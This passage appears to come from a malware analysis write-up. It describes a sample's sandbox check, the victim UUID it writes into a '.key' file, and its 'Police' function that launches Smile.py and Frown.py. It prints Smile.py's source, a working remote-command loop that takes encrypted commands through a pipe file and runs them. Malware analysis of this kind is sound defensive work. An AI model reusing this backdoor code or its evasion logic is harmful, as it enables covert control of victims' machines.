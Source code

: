 -   if sandbox check determined that it's not a sandbox, **it will
    generate an "UUID" and replace "THE_GUID_KEY\" word in "Frown.py"
    script with it**

-   Then it writes the "**THE_GUID_KEY**" into ".**key**" file **(It serves as a unique identifier for the victim)**.

-   Then it fires **Police function**.

**Police function**

-   It launches both "**Smile.py, Frown.py"** files.

This function is basically launched under two cases, the first one is
**passing argument "Police"** or continuing the flow of the script
**after writing ".key" file**.

## **Smile.py** 
```python
import multiprocessing
import sys
from colorama import init as c_init, Fore, Style
from affine import Affine
from smile_funs import *
c_init()
wanted = True
def communicate():
    resp = ""
    aff = Affine()
    while resp != "exit":
        try:
            header = f"""\n{Fore.RED}{getuser()}@{platform.node()}{Style.RESET_ALL}:{Fore.LIGHTBLUE_EX}{os.getcwd()}{Style.RESET_ALL}$ """
            try:
                it = open(pipe_out, "wb")
                it.truncate(0)
                it.write(aff.encrypt(resp + header))
                resp = ""
                it.close()
            except Exception as e:
                it = open(pipe_out, "w+")
                it.truncate(0)
                it.write(aff.encrypt(str(e) + header))
                it.close()
            file_ready()

            waiting_file()
            cmd = aff.decrypt(open(pipe_out, "rb").read())
            if len(cmd) > 2 and "$$" == cmd[0:2]:
                receiver, sender = multiprocessing.Pipe(False)
                process = multiprocessing.Process(target=work_on_cmd_process, name=cmd[2:], args=(cmd[2:], sender),
                                                  daemon=True)
                processes.append({"process": process, "receiver": receiver, "data": "", "root": os.getcwd()})
                process.start()
            else:
                resp = work_on_cmd(cmd)
        except Exception as e:
            with open(pipe_out + "BADD", "w+") as f:
                f.write(("\n\nBad Error Happened " + str(e) + "\n\n\n\n" + str(resp)))
    global wanted
    if resp == "exit":
        wanted = False
    time.sleep(0.5)
```